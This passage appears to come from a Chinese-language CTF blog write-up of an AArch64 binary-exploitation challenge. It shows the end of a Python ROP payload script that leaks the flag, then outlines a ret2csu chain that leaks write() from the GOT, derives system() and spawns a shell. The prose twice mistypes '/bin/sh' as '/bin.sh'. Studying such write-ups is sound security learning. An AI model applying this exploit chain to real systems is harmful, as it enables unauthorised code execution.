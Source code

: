 ```python
    elif i == 0x29: # x24
        payload += p64(flag_len)


    elif i == 0x2a: # x29
        payload += p64(addr_magic - 0x10)
    elif i == 0x2b: # x30
        payload += p64(0x0000000000400AB0) # for ret to __libc stage 2
    elif i == 0x2d: # x20
        payload += p64(1) # to compare with x19, mark write() finished
    elif i == 0x2e: # x21
        payload += p64(addr_magic - 0x10)
    elif i == 0x2f: # x22
        payload += p64(1)
    elif i == 0x30: # x23
        payload += p64(addr_magic + 0x8)
    elif i == 0x31: # x24
        payload += p64(flag_len)
    else:
        payload += p64(i)

conn.send(payload)

while True:
    conn.recv()

```

看到flag了：

![image-20201019135329078](/images/blog/66/image-20201019135329078.png)

需要注意的是初始化时用`alarm()`函数，设定了一个定时器，会在1分钟内结束程序，在gdb调试过程中回很难受。可以用ida给程序打patch，把对`alarm()`的调用换成`nop`


## HelloARMShell

这次我们需要在上一次的基础上get shell，即执行`system("/bin/sh")`。

首先我们需要准备参数`"/bin.sh"`和`system()`函数的地址，我们可以把`"/bin.sh"`放到第一次输入的`name`字段，因为`name`的地址是静态的，会方便很多。

至于`system()`函数的地址，这个程序并没有连接到`system()`函数，所以无法在plt表中找到对应的项，但是我们可以先获取到`.got`表中` write()`函数的 地址，然后通过偏移量算出`system()`函数的地址。

偏移量的计算可以在本机通过解析`libc.so`文件来解决。



最后，这题的思路主要是：

- 用`oooooo()`的缓冲区溢出劫持`main()`的`ret`指令，让它跳转到`__libc_csu_init()`函数内部`.text:0000000000400AD0`地址处（上图）。

- 然后我们通过精心构造溢出部分的内容，让程序去调用.plt表中的`write()`函数，往标准输出中写出`.got`表中`write()`函数对应位置的，8个字节的内容，这就是运行时`libc.so`中`write()`函数的地址。
- 本机的py脚本读取到地址后，加上偏移量计算出`system()`函数的地址，发送给程序。
- 对应的，我们再一次利用`__libc_csu_init()`函数，调用一个`read()`函数，读入算好的`system()`函数地址。
- 最后我们利用`__libc_csu_init()`函数，调用`system()`函数，成功get shell
